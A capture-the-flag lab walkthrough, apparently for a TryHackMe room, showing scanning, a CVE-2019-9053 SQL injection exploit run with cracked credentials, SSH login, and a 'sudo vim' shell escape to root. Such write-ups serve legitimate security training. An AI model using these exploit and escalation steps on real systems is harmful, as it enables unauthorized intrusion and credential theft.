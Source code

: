 # TryHackMe CTF Walkthrough

## 1. Services Running Under Port 1000
**Question:** How many services are running under port 1000?  
**Answer:** 2  
**Command:** 
```bash
nmap -sV [Target_Machine_Ip] -T5
```

**Nmap Scan Results:**
```
Starting Nmap 7.94SVN (https://nmap.org) at 2024-10-03 13:06 EEST 
Nmap scan report for 10.10.66.220
Host is up (0.086s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 29.27 seconds
```

## 2. Higher Port Service
**Question:** What is running on the higher port?  
**Answer:** SSH  

## 3. Directory Enumeration
**Command:**
```bash
gobuster dir -u http://[Target_Machine_Ip] -w /usr/share/wordlists/dirb/big.txt
```
**Gobuster Scan Results:**
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.66.220
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 300]
/simple               (Status: 301) [Size: 313] [--> http://10.10.66.220/simple/]                                                         

Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
```

## 4. CVE Used
**Question:** What's the CVE you're using against the application?  
**Answer:** CVE-2019-9053  
**Reference:** [Exploit Database CVE-2019-9053](https://www.exploit-db.com/exploits/46635)






## 5. Application Vulnerability
**Question:** To what kind of vulnerability is the application vulnerable?  
**Answer:** SQLi  


## 6. Exploiting the Vulnerability
**Question:** What can you leverage to exploit the vulnerability?  
**Answer:**   
**Command:**
```bash
python 46635.py -u http://[Target_Machine_Ip]/simple --crack -w /usr/share/wordlists/rockyou.txt
```

## 7. Exploit Output
**Question:** What information do you receive after exploiting the vulnerability?  
**Output:**
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## 8. Login Information
**Question:** Where can you log in with the details obtained?  
**Answer:** SSH  

**Question:** What password do you enter when prompted?  
**Answer:** secret  

## 9. User Flag
**Question:** What’s the user flag?  
**Answer:** G___ ___, ____ _p!  
**Method:** After logging in, the user can easily find the `user.txt` file in the home directory.

## 10. Other User in Home Directory
**Question:** Is there any other user in the home directory? What’s its name?  
**Answer:** sunbath  
**Method:** Navigate to the previous directory using `cd ..` and list the contents with `ls` to find another user.

## 11. Spawning a Privileged Shell
**Question:** What can you leverage to spawn a privileged shell?  
**Answer:** vim  
**Method:** After running the command:
```bash
sudo -l
```

## 12. Command to Spawn Privileged Shell
**Question:** What command do you use to spawn a privileged shell?  
**Method:** After running the command:
**Command:**
```bash
sudo vim -c ':!/bin/sh'
```

## 13. Finding the Root Flag
**Question:** How do you find the root flag?  
**Method:** Navigate to the root folder to find the `root.txt` file.  


**Flag:** W___ ____. ___ ____ _t!
